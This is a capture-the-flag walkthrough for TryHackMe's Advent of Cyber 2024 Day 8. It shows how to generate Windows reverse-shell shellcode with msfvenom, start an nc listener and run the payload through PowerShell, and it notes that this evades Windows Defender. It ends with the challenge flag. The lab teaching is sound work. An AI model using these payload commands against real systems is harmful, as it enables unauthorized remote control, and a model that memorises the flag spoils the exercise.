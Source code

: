 # Day 8: Shellcodes of the world, unite!

**Learning Objectives**
- Grasp the fundamentals of writing shellcode
- Generate shellcode for reverse shells
- Executing shellcode with PowerShell

### Generating Shellcode
Let's learn how to generate a shellcode to see what it looks like. To do this, we will use a tool called `msfvenom` to get a reverse shell.  

In the **AttackBox**, open the terminal and enter the command `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKBOX_IP LPORT=1111 -f powershell` that will generate the shellcode. Replace the `ATTACKBOX_IP` with the IP of the AttackBox (mine: **10.10.123.115**):

![image](https://github.com/user-attachments/assets/efcef4c5-f2eb-40a0-9032-d6474be9445a)

The command (`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKBOX_IP LPORT=1111 -f powershell`) generates a piece of shellcode using `msfvenom`. Here's what each part means:

- `-p windows/x64/shell_reverse_tcp`: The `-p` flag tells `msfvenom` what type of payload to create. `windows/x64/shell_reverse_tcp` specifies that we want a reverse shell for a Windows machine.
- `LHOST=ATTACKBOX_IP`: This is the IP address of the AttackBox. It tells the reverse shell where to connect back to.
- `LPORT=1111`: This is the port number on your machine that will listen for the reverse shell connection. When the target connects back to you, it will use this port (`1111` in this example). You can choose any available port, but it needs to match with what your listener is set to.
- `-f powershell`: This specifies the format for the output. In this case, we want the payload to be in PowerShell format so it can be executed as a script on a Windows machine.

### Time for Some Action - Executing the Shellcode
1. On the **AttackBox**, execute the command `nc -nvlp 1111` to start a listener on port 1111 and wait for an incoming connection. This command opens port 1111 and listens for connections, allowing the AttackBox to receive data once a connection is made.

2. On the **AttackBox**, begin by navigating to the Desktop. Right-click on the Desktop, select Create Document, and then choose Empty File. Open this new file and paste the previously provided PowerShell script code (on [THM](https://tryhackme.com/r/room/adventofcyber2024)) into it.

3. Look for the part labelled `SHELLCODE_PLACEHOLDER` and replace it with the shellcode we previously created with `msfvenom`.

4. Once you've added the shellcode navigate to the attached **VM**, open PowerShell by clicking the PowerShell icon on the taskbar and piece by piece, paste the code from the document you recently created to the Windows PowerShell window.

5. Once you've finished copy-pasting, press Enter.

![image](https://github.com/user-attachments/assets/5c3e434c-307d-45b6-9bbc-dd58e3b844b9)

>[!note]
>If your PowerShell terminal unexpectedly closes, it means your `nc` listener was not reachable, possibly because it was not running or was listening on the wrong port or IP.

6. Once you execute the final line in the PowerShell terminal and press Enter, you will get a reverse shell in the AttackBox, giving you complete access to the computer even if the Windows Defender is enabled.

![image](https://github.com/user-attachments/assets/216eb1f0-860f-4424-aa66-5c75d7e798fe)

7. Now you can issue any command, like issuing `dir`, which will list all the directories.

![image](https://github.com/user-attachments/assets/5d3eced2-9fb4-4754-9818-f6a13659b00f)

### Regaining Access
Let's dive into the story and troubleshoot the issue in this part of the task. Glitch has realised he's no longer receiving incoming connections from his home base. Mayor Malware's minion team seems to have tampered with the shellcode and updated both the IP and port, preventing Glitch from connecting. The correct IP address for Glitch is **10.10.123.115** (AttackBox IP), and the successful connection port should be **4444**.

Can you help Glitch identify and update the shellcode with the correct IP and port to restore the connection and reclaim control?

1. In the **AttackBox** terminal type: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.123.115 LPORT=4444 -f powershell`.
2. Press Enter. This will create a new shellcode.
3. In the **AttackBox**, execute the command `nc -nvlp 4444` to start a listener on port 4444.
4. In a new document copy and paste the PowerShell script on THM, putting the newly created shellcode in.
5. Copy and paste document text into the **VM** PowerShell.
6. Return to AttackBox terminal: we have remote access.

![image](https://github.com/user-attachments/assets/fde7bbb1-7133-47d0-baea-18a7cfebae2c)

### Answers
1. What is the flag value once Glitch gets reverse shell on the digital vault using port 4444? Note: The flag may take around a minute to appear in the **C:\Users\glitch\Desktop** directory. You can view the content of the flag by using the command `type C:\Users\glitch\Desktop\flag.txt` in the AttackBox terminal. **AOC{GOT MY_ACCESS_B@CK007}**.
